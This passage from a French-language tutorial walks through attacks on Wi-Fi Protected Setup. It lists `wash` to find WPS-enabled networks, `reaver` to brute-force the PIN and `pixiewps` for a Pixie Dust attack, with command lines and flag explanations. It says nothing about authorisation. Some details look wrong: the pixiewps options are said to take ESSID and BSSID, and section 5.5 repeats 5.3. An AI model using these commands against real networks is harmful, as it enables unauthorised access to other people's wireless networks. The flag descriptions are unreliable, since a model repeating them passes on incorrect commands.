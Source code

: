 ## 5. Attaques WPS

Les attaques WPS (Wi-Fi Protected Setup) visent à exploiter les faiblesses du protocole de configuration de sécurité Wi-Fi pour accéder plus facilement à un réseau sans fil. Voici comment effectuer des attaques WPS avec des détails sur chaque sous-chapitre.

### 5.1. Présentation de l'Attaque WPS

L'Attaque WPS exploite les vulnérabilités du processus de configuration rapide Wi-Fi. Avant de lancer une attaque WPS, il est essentiel de comprendre les principes fondamentaux.

### 5.2. Scan des Réseaux WPS

Avant d'attaquer, il est nécessaire d'identifier les réseaux activant WPS. Utilisez `wash` pour détecter les réseaux WPS activés.

```bash
sudo wash -i <votre_carte>
```

- `-i <votre_carte>` : spécifie votre interface WiFi.

### 5.3. Attaque par Brute-Force

Une attaque par force brute sur le code PIN WPS est une méthode courante pour compromettre la sécurité. Utilisez `reaver` pour lancer cette attaque.

```bash
sudo reaver -i <votre_carte> -b <BSSID> -vv
```

- `-i <votre_carte>` : spécifie votre interface WiFi.
- `-b <BSSID>` : spécifie l'adresse MAC du point d'accès.

### 5.4. Attaque Pixie Dust

L'attaque Pixie Dust exploite une faiblesse dans la génération des clés WPS. Utilisez `pixiewps` pour exécuter cette attaque.

```bash
sudo pixiewps -e <ESSID> -s <BSSID> -z <hash>
```

- `-e <ESSID>` : spécifie le SSID du réseau.
- `-s <BSSID>` : spécifie l'adresse MAC du point d'accès.
- `-z <hash>` : spécifie le hash Pixie Dust.

### 5.5. Attaque Reaver avec Verbose

L'attaque Reaver peut être ajustée pour fournir une sortie détaillée, ce qui peut être utile pour l'analyse.

```bash
sudo reaver -i <votre_carte> -b <BSSID> -vv
```

- `-i <votre_carte>` : spécifie votre interface WiFi.
- `-b <BSSID>` : spécifie l'adresse MAC du point d'accès.
- `-vv` : augmente la verbosité de la sortie.
